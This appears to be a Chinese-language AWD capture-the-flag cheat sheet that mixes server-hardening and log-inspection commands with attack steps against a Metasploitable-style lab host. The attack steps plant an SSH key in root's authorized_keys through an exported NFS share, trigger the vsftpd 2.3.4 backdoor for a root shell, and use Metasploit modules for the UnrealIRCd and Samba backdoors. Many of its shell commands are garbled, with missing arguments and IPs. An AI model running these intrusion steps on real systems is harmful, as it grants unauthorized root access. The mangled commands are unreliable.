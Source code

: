 ## 准备

* 备份www
* 备份passwd
* linux_check
* 修改默认口令 curl wget
* 配置waf，文件监控，日志记录 * getflag所需命令改名
* 改权限
* 白盒审计工具
* Burp
* 上传、权限维持脚本
* 扫描webshell,爆破
  
```bash
lsb_release  -a
file /bin/ls
getconf LONG_BIT
cat /etc/issue
uname -a
whoami
ssh user@remote_server tail -f /var/log/apache2/access.log | ngxtop -f
ssh msfadmin@192.168.189.131 tail -f /var/log/apache2/access.log | ngxtop -f 
```
## 常用命令

```shell
scp 文件路径 用户名@IP:存放路径
who 查看tty
pkill ‐kill ‐t <用户tty>
#查看已建立的网络连接及进程
netstat ‐antulp | grep EST
#查看指定端口被哪个进程占用
lsof ‐i:端口号 或者 netstat ‐tunlp|grep 端口号
#结束进程命令
kill PID
killall <进程名>
kill ‐ <PID>
#封杀某个IP或者ip段，如:.
iptables ‐I INPUT ‐s . ‐j DROP
iptables ‐I INPUT ‐s ./ ‐j DROP #禁止从某个主机ssh远程访问登陆到本机，如123..
iptable ‐t filter ‐A INPUT ‐s . ‐p tcp ‐‐dport ‐j DROP 
#备份mysql数据库
mysqldump ‐u 用户名 ‐p 密码 数据库名 > back.sql
mysqldump ‐‐all‐databases > bak.sql
#还原mysql数据库
mysql ‐u 用户名 ‐p 密码 数据库名 < bak.sql
find / *.php ‐perm
awk ‐F: /etc/passwd
crontab ‐l
#检测所有的tcp连接数量及状态
netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn 
#查看页面访问排名前十的IP
cat /var/log/apache2/access.log | cut ‐f1 ‐d
r | head ‐
#查看页面访问排名前十的URL
cat /var/log/apache2/access.log | cut ‐f4 ‐d
r | head ‐
```
netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn
win:netstat -no 查看网络链接
# 防御&&attack

## 防篡改

chattr +i /etc/profile
chattr -R +i /var/www/html
chattr +a /var/log 只能追加

## 进程检查

如果我们怀疑某个进程正在是受到溢出攻击后创建的shell进程，我们可以分析这个进程是否有socket连接，linux中查看指定进程socket 连接数的命令为:
比如我们查看ssh进程的socket连接。如果我们检测的程序有socket连接，说明它正在进行网络通信，我们就需要进行进一步判断。


## 检查nfs

rpcinfo -p 192.168.189.131
showmount -e
 mkdir /tmp/r00t

 mount -t nfs 192.168.99.131:/ /tmp/r00t/

 cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys 

 umount /tmp/r00t


 ssh root@192.168.99.131

## ftp ssh 配置文件检查

    telnet 192.168.99.131 21

    Trying 192.168.99.131…

    Connected to 192.168.99.131.

    Escape character is &#039;^]&#039;.

    220 (vsFTPd 2.3.4)

    user backdoored:)

    331 Please specify the password.

    pass invalid

    ^]

    telnet> quit

telnet 192.168.99.131 6200

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &#039;^]&#039;.

id;

uid=0(root) gid=0(root)

## 6667端口上运行着UnreaIRCD IRC

 use exploit/unix/irc/unreal_ircd_3281_backdoor
 getshell

## ingreslock 后门

telnet 192.168.99.131 1524

## smb后门

配置为文件权限可写同时"wide links" 被允许（默认就是允许），同样可以被作为后门而仅仅是文件共享。下面例子里，metasploit提供一个攻击模块，允许接入一个root文件系统通过一个匿名接入和可写入的共享设置。
smbclient -L //192.168.99.131
 use auxiliary/admin/smb/samba_symlink_traversal 
 set RHOST 192.168.99.131
  set SMBSHARE tmp
  exploit 

 smbclient //192.168.99.131/tmp
 getshell
 
## dwa后门

Default username = admin
Default password = password

##php 漏洞
CVE–2012-1823和 CVE–2012-2311


# 查看页面访问排名前十的IP

netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn 

http://bobao.360.cn/ctf/learning/210.html  
https://bbs.ichunqiu.com/thread-25092-1-1.html?from=aqzx2